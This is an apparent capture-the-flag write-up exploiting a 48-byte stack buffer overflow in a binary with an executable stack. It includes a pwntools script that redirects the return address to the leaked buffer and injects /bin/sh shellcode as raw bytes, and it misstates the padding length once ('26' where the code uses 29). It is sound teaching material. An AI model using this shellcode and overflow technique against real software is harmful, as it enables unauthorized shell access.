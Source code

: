 When we run the program we're given the output `Oops! I leaked some stuff 0x7ffe978e4df0` and a prompt. The first thing we do is open it up in Ghidra to see if we can find something interesting. Apparently `main()` only calls the function `vuln()`, which will be of interest to us. The decompiled version is:

```c
void vuln(void)

{
  undefined local_38 [48];
  
  printf("Oops! I leaked some stuff %p\n> ",local_38);
  read(0,local_38,64);
  return;
}
```

So the function creates an array 48 bytes in length, prints that array, and uses the `read()` function to read 64 bytes into this array, and then it just returns. So what do we do with this? The challenge text heavily hinted at getting a shell, so we're going to have to try doing that. But how?

Lets use checksec to find out what protections the file has (or hasn't):
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

Importantly for us the `Stack` and `NX` protections are turned off. This means that we can do a buffer overflow, and execute code on the stack. This in turn means that, if we are able to write code on the stack we can write code which executes `/bin/sh`. 

# overflowing the buffer and returning to the start of the array
If we run `cyclic` we can overflow the buffer and find the offset at 56. if we look at this in pwngdb see that we also overwrite the return pointer. Now what we want to do is place the address to the start of the leaked array into the return pointer.

We do this with (here I have removed parsing the address and some other initial stuff):
```python
padding = b"A" * 48 + b"B" * 8
packed_addr = p64(addr)

rop = ROP(binary)

rop.raw(padding)
rop.raw(packed_addr)

p.sendlineafter(b"> ", rop.chain())
p.interactive()
```

This yields (from the script):
```python
[DEBUG] Received 0x2b bytes:
    b'Oops! I leaked some stuff 0x7ffe805dae60\n'
    b'> '
[*] Loaded 14 cached gadgets for './first_pwn'
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  42 42 42 42  42 42 42 42  60 ae 5d 80  fe 7f 00 00  │BBBB│BBBB│`·]·│····│
    00000040  0a                                                  │·│
    00000041
```
And in the program:
```python
0x5616d0e3120c <vuln+60>    ret    <0x7ffe805dae60>
```

Success! We have managed to return to the start of the array. But that alone is not enough, now we will need to inject code into the stack and execute this to get a shell

# Getting a shell
For this next part I just found some shellcode online, but unfortunately I have lost the source, so I can't link back to it. Regardless, the shellcode is: `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

Therefore we add the following to our python solve script:
```python
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + 29 * b"A"
---
rop.raw(payload)
rop.raw(packed_addr)

p.sendlineafter(b"> ", rop.chain())
```
What this does is add the shellcode to the start of the array and a padding **up until** the place we got a buffer overflow before (i.e. 56 which we discovered earlier with `cyclic`). also note `26 = (56 - len(shellcode))`. The extra A's are required because we want to overwrite the return pointer (which we saw earlier) and place our own code there.

When we now return to the start of the array, what we placed there earlier (the shellcode) will execute and we get a shell. 

# lessons
Some useful gbd commands:
`b *vuln+48` -> break at offset from function

Useful workflow:
add `pause()` to pwntools script before exploit. Stop execution of script and gives a pid, attach to the process with pwn-gdb with `gdb -p <PID>` to see what's going on.

This was my first shellcode pwn challenge, so I also learned tons about how to exploit enabled stack execution to get a shell.
